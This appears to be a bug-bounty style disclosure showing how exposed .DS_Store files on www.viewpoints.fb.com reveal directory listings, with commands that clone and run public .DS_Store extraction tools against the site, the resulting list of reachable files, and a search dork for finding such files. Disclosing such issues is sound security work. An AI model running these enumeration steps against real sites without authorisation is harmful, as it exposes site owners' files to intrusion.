 
1. Go to the Url: https://www.viewpoints.fb.com/.DS_Store and the DS_Store file automatically downloaded
2.  Setup the dsstore.py, then Run the script and see the output 
git clone https://github.com/gehaxelt/Python-dsstore && cd Python-dsstore/ && chmod +x dsstore.py 
python3 ./main.py ~/Downloads/DS_Store 
3. Then the files are listed, well let’s see what happens with the other directories, for example, “images”, navigate to https://www.viewpoints.fb.com/images/.DS_Store and the (.DS_Store) file, again downloads automatically.
4. Run the below script for the .DS_Store see the output
git clone https://github.com/lijiejie/ds_store_exp
cd ds_store_exp
sudo pip2 install -r requirements.txt
python2 ./ds_store_exp.py https://www.viewpoints.fb.com/.DS_Store

Output:
[200] https://www.viewpoints.fb.com/.DS_Store
[200] https://www.viewpoints.fb.com/package.json
[200] https://www.viewpoints.fb.com/sourceimages/.DS_Store
[200] https://www.viewpoints.fb.com/selection.json
[403] https://www.viewpoints.fb.com/js
[200] https://www.viewpoints.fb.com/js/.DS_Store
[403] https://www.viewpoints.fb.com/grunt-settings.js/.DS_Store
[200] https://www.viewpoints.fb.com/grunt-settings.js
[200] https://www.viewpoints.fb.com/Gruntfile.js
[200] https://www.viewpoints.fb.com/package-lock.json
[403] https://www.viewpoints.fb.com/Gruntfile.js/.DS_Store
[403] https://www.viewpoints.fb.com/index.html/.DS_Store
[403] https://www.viewpoints.fb.com/css/.DS_Store
[200] https://www.viewpoints.fb.com/SF_font/.DS_Store
[200] https://www.viewpoints.fb.com/newsletter/.DS_Store
[200] https://www.viewpoints.fb.com/email_confirmation/.DS_Store

4. Then Confirm vía browser the accessibility for any file listed for example “selection.json” , go to https://www.viewpoints.fb.com/selection.json via any browser and see the file.

5. Repeat in whole Directory “Five”, if you can access to any “.DS_Store” you can see the directory listing
The “.DS_Store” files founded on https://www.viewpoints.fb.com/ :
https://www.viewpoints.fb.com/sourceimages/.DS_Store
https://www.viewpoints.fb.com/js/.DS_Store
https://www.viewpoints.fb.com/SF_font/.DS_Store
https://www.viewpoints.fb.com/newsletter/.DS_Store
https://www.viewpoints.fb.com/email_confirmation/.DS_Store

How can the attacker get the file? Easy, with a simple google/bing dork or example “site:www.viewpoints.fb.com filetype(.DS_Store OR DS_Store)” or maybe with a manual test on any directories or image directories adding .DS_Store at the end of the URLs.

See attached pictures 
